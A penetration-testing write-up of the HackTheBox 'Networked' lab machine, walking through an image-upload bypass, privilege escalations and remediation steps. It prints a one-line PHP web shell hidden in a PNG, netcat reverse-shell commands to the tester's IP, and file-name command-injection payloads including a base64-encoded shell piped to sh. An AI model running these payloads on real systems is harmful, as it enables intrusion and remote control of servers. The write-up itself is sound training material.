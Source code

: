 ```yaml
---
layout: writeup
title: Networked - HackTheBox
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Networked Box from HackTheBox
image: # /assets/images/Networked/Networked.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null, LainKusanagi, Linux]
---
```


Today I'm doing a writeup for a [Hack The Box](https://app.hackthebox.com/profile/2013658) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Networked, and it is rated Easy by HackTheBox. As usual, we get started with an nmap scan. I'm using my own [custom script](https://github.com/pentestpop/verybasicenum/blob/main/vbnmap.sh) for this which (gives more detail but) shows these open ports:

```
PORT    STATE  SERVICE
22/tcp  open   ssh
80/tcp  open   http
443/tcp closed https
```

Looks like we're going to be pentesting a web app, so I check out port 80 and find this:

![Networked2.png](/assets/images/Networked/Networked2.png){: .center-aligned width="600px"}

Not much going on there, so I start feroxbuster and quickly find `http://10.10.10.146/uploads/` and `http://10.10.10.146/backup/backup.tar`, and that's about it. I download the backup.tar file and find: 

```
-rw-r--r--  1 pop  pop    229 Jul  9  2019 index.php
-rw-r--r--  1 pop  pop   2001 Jul  2  2019 lib.php
-rw-r--r--  1 pop  pop   1871 Jul  2  2019 photos.php
-rw-r--r--  1 pop  pop   1331 Jul  2  2019 upload.php
```

These php files are all available through the browser, so maybe if we read through them we can figure out how to exploit them. Upload.php seems to suggest the file types are limited to images. 

![Networked3.png](/assets/images/Networked/Networked3.png){: .center-aligned width="600px"}

This fits with the photos.php page. 

![Networked4.png](/assets/images/Networked/Networked4.png){: .center-aligned width="600px"}

Unfortunately when I browse to the upload.php page and attempt to upload any of these images, I get a `Invalid file type` response. It turns out this is because my sample files are too big. 

![Networked5.png](/assets/images/Networked/Networked5.png){: .center-aligned width="600px"}

So I get another sample file and try again, and the upload works. 

![Networked6.png](/assets/images/Networked/Networked6.png){: .center-aligned width="600px"}

It also change the file name to my ip address with `_`'s instead of `.`'s. So the game here is probably going to be to upload a shell of some kind, but making it look like a png file. That rules out ivan's PHP reverse shell by the way. So it will have to be something pretty small. From the code snippet above, we know that the upload.php only accepts image files, but we might be able to spoof them. 

Initially I try to do this by adding the magic bytes for PNG files (`89 50 4E 47 0D 0A 1A 0A`) and insuring that the Content-Type in the HTTP request is set to `image/png`. 
![Networked7.png](/assets/images/Networked/Networked7.png){: .center-aligned width="600px"}

I can't seem to get this uploaded whether it's called `shell.php` or `shell.php.png`, so I decided to go another route and use a real sample png file, simply using `shell.php.png` as the file name and appending some php to the end. In my case I went with: 

```
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
```

This will allow me to open the file and use cmd as a parameter to send a command. Here I run the command as `whoami` and get the result of apache at the bottom. 

![Networked8.png](/assets/images/Networked/Networked8.png){: .center-aligned width="600px"}
I fiddle with this for a while, trying a few options to get a shell (can't find an ssh key) and wind up with `http://10.10.10.146/uploads/10_10_14_3.php.png?cmd=nc+10.10.14.3+445+-e+/bin/bash` which gets me the shell:

![Networked9.png](/assets/images/Networked/Networked9.png){: .center-aligned width="600px"}

I navigate to the `/home` directory and find that while I can access the only user's (guly) directory, I cannot read the user.txt file. I can read `crontab.guly` and `check_attack.php`. The crontab just shows that check_attack is being run, but check_attack looks like this:
```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
	$msg='';
  if ($value == 'index.html') {
	continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

Basically this is checking to see if there are any files in the that do not meet the criteria for file names that are established in the upload directory. They should be the IP address with the quartets separated by `_`'s. The command to remove the files is here:
`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

We know the path is `/var/www/html/uploads/$fileName`, but we set the $value with the file name. We couldn't have exploited this very easily from the web shell because the app changes the file name to the correct naming convention, but we can once we have a shell. If the file name includes perhaps a `;` or `&` then maybe the part after that will be executed. Initially I tried using the same shell I used to access the machine: `touch 'a; nc 10.10.14.3 445 -e /bin/bash; b'`, but I get an error, presumably because of the slashes: 

```
touch: cannot touch 'a; nc 10.10.14.3 445 -e /bin/bash; b': No such file or directory
```

So I change it to `touch 'a; nc 10.10.14.3 445 -e bash; b'`. That gets a hit on the machine and dies. Then I try creating a python shell and `touch a; python shell.py; b`, and that also gets a hit and dies. 

Given that the issue seems to be with the slashes, we can just use base64 to encode and then decode it. I'll use `nc 10.10.14.3 445 -e /bin/bash` and encode it. The full command then will be: 
`touch 'a; echo bmMgMTAuMTAuMTQuMyA4ODg4IC1lIC9iaW4vYmFzaA== | base64 -d | sh; b'`, adn this actually gets a stable shell. 


![Networked10.png](/assets/images/Networked/Networked10.png){: .center-aligned width="600px"}

I grab the user.txt file and see what guly can do with `sudo -l`.

![Networked11.png](/assets/images/Networked/Networked11.png){: .center-aligned width="600px"}

The changename.sh file looks like this:

![Networked12.png](/assets/images/Networked/Networked12.png){: .center-aligned width="600px"}

This script is writing to the `ifcfg-guly` script based on input that I give it. It asks me for the input for `interface NAME`, `interface PROXY_METHOD`, `interface BROWSER_ONLY`, and `interface BOOTPROTO`. No matter what I put, I get an error:

```
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```
 But after trying a bunch of different things, it turns out that if there is a space in the variable, it will get executed as a command. So if the responses to the inputs are: `test /bin/bash`, `test`, `test`, and `test /bin/bash`, we get a root shell:

![Networked13.png](/assets/images/Networked/Networked13.png){: .center-aligned width="600px"}

And then we can grab the root.txt. 

### Lessons Learned
Personally, I found this machine to be pretty difficult. I appreciate that it didn't fail the whole time I was doing it, but it took a while. Still, glad to have learned a few things:
- I'm use to editing the magic bytes and the MIME type, but I hadn't had the experience of using a real image file and appending a web shell to it. I'm a little frustrated that having the php files didn't really help me, as I still fiddled with it as though I didn't, but oh well. 
- Both privilege escalations took a while, and they seem like the involved unrealistic scripts. But they were good examples of how malicious code execution can work. I don't do a good enough job of manually splitting commands in situations like that, so it was good to have some practice with it. 
- After checking some other writeups after the fact, I found that while I could not use `nc 10.10.14.3 445 -e bash` to as the file name in the uploads directory, it worked for someone else with `nc 10.10.14.3 445 -c bash`. So it didn't actually need to be base64 encoded. I see both options on [revshells.com](https://www.revshells.com/), but I've never tried to use the latter, and now I know to give it a shot. 

### Remediation Steps
- Remove the ability for php files to be executed from the `/var/www/html/uploads` directory. Especially considering only image files should be there, there's no reason for php to execute. 
- Improve input validation on `/home/guly/check_attack.php`. It shouldn't be possible for commands to be executing with it based on file names. 
- If possible, change the way file names are allowed to be created. If they include `:` or `&` for example, they could be use for code execution if called by a script. 
- Similiarly improve input validation for `/usr/local/sbin/changename.sh`. A simply space in the input shouldn't allow the word after to be run as code.